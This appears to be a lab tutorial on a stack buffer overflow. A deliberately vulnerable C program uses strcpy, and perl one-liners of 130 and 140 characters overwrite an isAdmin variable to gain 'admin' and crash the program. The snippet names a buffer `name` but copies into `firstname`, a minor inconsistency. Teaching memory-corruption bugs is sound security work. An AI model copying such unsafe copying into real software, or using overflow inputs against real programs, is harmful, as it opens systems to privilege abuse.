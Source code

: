 # Simple Buffer overflow - local variable overwrite

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change a sensitive variable, and based on this the function flow,
which enables us to gain "admin" privileges.


## Goal

* Understand C arrays by misusing them
* Get comfortable with gdb
* Deeper understanding of the stack


## Source 

* Source directory: `~/challenges/challenge09/`
* Source files: [challenge09](https://github.com/dobin/yookiterm-challenges-files/tree/master/challenge09)

You can compile it by calling `make` in the folder `~/challenges/challenge09`


## Vulnerability

Read the source of `challenge09.c`.

The vulnerability lies here:

```
void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[128];
	...
	strcpy(firstname, username); // strcpy() is unsafe
	...
}

int main(int argc, char **argv) {
    handleData(argv[1], argv[2]);
}
```

The first argument of the program is copied into a stack buffer `name` of 128 byte size.
After this buffer `name`, an important variable called `isAdmin` is located.


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
~/challenges/challenge09$ ./challenge09 sheldon password
isAdmin: 0x0
Not admin.
```

The password "password" seems to be not correct. We dont know
what the actual password is.

But with the correct password, it would look like this:

```
~/challenges/challenge09$ ./challenge09 sheldon ...
isAdmin: 0x1
You are admin!
```


## Abnormal behaviour - buffer overflow

What happens when you insert a string which is longer than 128 bytes? Lets try it.
We can use perl to print 130 characters:

```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 130'` password
isAdmin: 0x4141
You are admin!
```

It appears that we have overwritten the `isAdmin` variable with the content `0x4141`. 


## Abnormal behaviour - more buffer overflow

What if we even add some more characters? Lets say 140.

```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 140'` password
isAdmin: 0x41414141
You are admin!
Segmentation fault (core dumped)
```

Not only is the `isAdmin` variable `0x41414141`, but we also get a `Segmentation fault` 
at the end.


## Things to think about

* What is happening here? Why Are we "admin" if we use a username which is 130 bytes long?
* Why do we get a segmentation fault if we use a username which is 140 bytes long?

